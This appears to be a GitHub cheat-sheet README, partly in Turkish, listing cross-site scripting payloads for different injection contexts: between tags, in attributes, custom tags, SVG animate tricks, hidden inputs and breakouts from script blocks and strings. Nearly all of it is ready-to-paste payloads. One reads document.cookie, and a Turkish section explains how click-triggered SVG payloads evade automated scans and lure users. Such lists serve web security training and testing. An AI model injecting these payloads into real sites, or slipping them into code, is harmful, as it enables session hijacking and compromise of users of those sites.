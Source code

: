 # xss-cheat-sheet

XSS between HTML tags


<script>alert(document.domain)</script>
 <img src=1 onerror=alert(1)>


XSS in HTML tag attributes

"><script>alert(document.domain)</script>

" autofocus onfocus=alert(document.domain) x="

<a href="javascript:alert(document.domain)">

Custom tag
<blog-tag onclick=alert(document.cookie)>
<customtag onmouseover=alert(1)>XSS</customtag>
<customtag autofocus onfocus=alert(1) tabindex=1></customtag>

"><svg><animatetransform onbegin=alert(1)>
"><img src=x onerror=alert(1)>
"><svg onload=alert(1)>

<!-- Tıklanabilir XSS -->
<svg><a><animate attributeName=href values=javascript:alert(1)></animate><text y=20 x=20>Click</text></a></svg>

<!-- Otomatik tetiklenen -->
<svg><animate attributeName=onload values=alert(1) begin=0s dur=1s></svg>

<!-- CSS injection -->
<svg><animate attributeName=style values="background:url(javascript:alert(1))" dur=1s></svg>

Begin=click’in Güvenlik Açısından Önemi

1.Gizlilik: Kullanıcı tıklayana kadar zararlı kod gizli kalır
2.Bypass: Otomatik güvenlik taramalarını atlatabilir
3.Social Engineering: "Click me" gibi metinlerle kullanıcıyı kandırır
4.Timing Control: Saldırganın istediği anda tetiklenir


Gerçek Örnek
<svg width="200" height="50">
  <a>
    <animate attributeName="href" 
             values="javascript:alert('XSS Executed!')" 
             begin="click" 
             dur="1s"/>
    <text x="10" y="30" fill="blue" style="cursor:pointer">
      Click for surprise! 🎁
    </text>
  </a>
</svg>


XSS in hidden input fields

Look at inside head tags
<link rel="canonical" accesskey="X" onclick="alert(1)" />
(Press ALT+SHIFT+X on Windows) (CTRL+ALT+X on OS X)


XSS into JavaScript


Terminating the existing script
If there is such a things like that 

<script>
                        var searchTerms = '<script>alert(1)</script>';
                        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
                    </script>

You could use a payload down below
</script><script>alert(1)</script>





Breaking out of a JavaScript string


If there is something like that

 <script>
                        var searchTerms = 'test123';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
                    </script>

You can use these payloads 
‘-alert(1)-’
'+alert(1)+'
';alert(1);'
';alert(1)//'
'-alert(document.domain)-'
 ';alert(document.domain)//

